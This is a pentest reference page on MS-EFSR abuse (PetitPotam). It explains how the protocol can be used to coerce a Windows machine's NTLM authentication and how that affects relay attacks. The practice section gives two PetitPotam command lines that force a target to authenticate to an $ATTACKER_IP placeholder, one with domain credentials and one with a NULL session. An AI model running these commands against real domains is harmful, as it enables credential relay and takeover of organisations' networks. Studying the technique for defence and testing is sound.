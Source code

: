 # MS-EFSR abuse \(PetitPotam\)

## Theory

MS-EFSR is Microsoft's Encrypting File System Remote protocol. It performs maintenance and management operations on encrypted data that is stored remotely and accessed over a network \([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr)\) and is available as an RPC interface. That interface is available through the `\pipe\efsrpc`, `\pipe\lsarpc`, `\pipe\samr`, `\pipe\lsass` and `\pipe\netlogon` SMB named pipes.

In 2019, Google's Project Zero research team found and reported a bug on MS-EFSR that could be combined with a [NTLM Reflection attack](https://bugs.chromium.org/p/project-zero/issues/detail?id=222) leading to a Local Privilege Elevation. An insufficient path check in MS-EFSR's `EfsRpcOpenFileRaw` method allowed attackers to force the `SYSTEM` account into creating an executable file of the attacker's choosing, hence providing the attacker with local admin rights.

While the wider implications of this bug, AD-DS-wise, were only suspected, in 2021, [Gilles LIONEL](https://twitter.com/topotam77/status/1416833996923809793) used that bug to remotely coerce domain-joined machine's authentication.

{% hint style="warning" %}
At the time of writing \(08/11/2021\), this bug has not been [fully addressed](https://blog.0patch.com/2021/08/free-micropatches-for-petitpotam.html) by Microsoft.
{% endhint %}

## Practice

An authentication can be forced with the original author's proof-of-concepts dubbed "[PetitPotam](https://github.com/topotam/PetitPotam)" \(available in C and Python\) by using a valid AD account's credentials.

```bash
Petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
```

{% hint style="info" %}
**Nota bene**: the coerced NTLM authentication will be made through SMB. This is important because it restricts the possibilites of [NTLM relay](../ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMBv2 to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

{% hint style="success" %}
Some tests conducted in lab environments showed that, unlike the [MS-RPRN abuse \(printbug\)](ms-rprn.md), a NULL session could potentially be used to trigger that bug \(if allowed by the target\). This has only been verified to be working on on Windows Server 2016 and Windows Server 2019 Domain Controllers.

```bash
Petitpotam.py $ATTACKER_IP $TARGET_IP
```
{% endhint %}

## References

{% embed url="https://www.exploit-db.com/exploits/47115" %}

{% embed url="https://github.com/topotam/PetitPotam" %}

